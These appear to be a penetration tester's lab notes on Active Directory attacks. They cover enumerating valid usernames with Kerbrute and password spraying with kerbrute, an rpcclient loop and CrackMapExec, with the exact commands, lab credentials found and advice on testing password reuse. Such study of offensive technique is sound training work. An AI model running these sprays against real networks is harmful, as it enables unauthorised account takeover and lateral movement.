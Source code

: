 
1. We first need a valid list of users
	1. How?
	  - Leverage an SMB Null session
	  - Utilize LDAP anonymous bind
	  - User [[Kerbrute]] with a userlist

#### Use Kerbrute to get a list of valid users:
`sudo kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_users.txt
`

==You must keep a log of what you are doing==
Why? -> What if a malicious actor is in the network when you are as well? How would your client know?


## Internal Password Spraying with Linux:
1. Now that we have a valid list of usernames, we can attempt to spray passwords.

```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

##### Kerbrute:
```
# Spray the password: Welcome1 to all the users in 'valid_users.txt'

kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
==Creds:== sgage:Welcome1[^1]
avazquez:Password123

> [!NOTE] Internal Spray with CrackMapExec
> ```shell-session
> # Use grep to show only successful sprays
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep + 


^ ^ Validate credentials with CME:
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123


### Test for password reuse!
1. If you gather admin credentials, try them in as many other places as possible in the domain
2. If a user has a standard account and an admin account, try the creds on the admin account as well.
